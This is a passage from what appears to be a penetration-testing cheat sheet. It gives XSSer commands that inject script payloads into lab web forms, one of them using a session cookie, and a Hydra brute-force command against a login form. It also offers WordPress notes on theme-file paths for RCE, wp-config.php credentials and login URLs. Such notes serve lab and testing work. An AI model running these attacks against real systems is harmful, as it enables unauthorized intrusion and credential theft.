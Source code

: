 **XSSer**

```
xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://<TARGET_IP>/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

xsser --url "http://<TARGET_IP>/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"

## Authenticated XSSer
xsser --url "http://<TARGET_IP>/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```

**Hydra**

```
# Basic auth attacks (brute-force)
hydra -L <USERS_LIST> -P <PW_LIST> <TARGET_IP> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```

#### Wordpress



**Basic Information**



**Uploaded** files go to: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`\
**Themes files can be found in /wp-content/themes/,** so if you change some php of the theme to get RCE you probably will use that path. For example: Using **theme twentytwelve** you can **access** the **404.php** file in: [**/wp-content/themes/twentytwelve/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)\
**Another useful url could be:** [**/wp-content/themes/default/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

In **wp-config.php** you can find the root password of the database.

Default login paths to check: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

**Main WordPress Files**

* `index.php`
* `license.txt` contains useful information such as the version WordPress installed.
* `wp-activate.php` is used for the email activation process when setting up a new WordPress site.
* Login folders (may be renamed to hide it):
  * `/wp-admin/login.php`
  * `/wp-admin/wp-login.php`
  * `/login.php`
  * `/wp-login.php`
* `xmlrpc.php` is a file that represents a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism. This type of communication has been replaced by the WordPress [REST API](https://developer.wordpress.org/rest-api/reference).
* The `wp-content` folder is the main directory where plugins and themes are stored.
* `wp-content/uploads/` Is the directory where any files uploaded to the platform are stored.
* `wp-includes/` This is the directory where core files are stored, such as certificates, fonts, JavaScript files, and widgets.
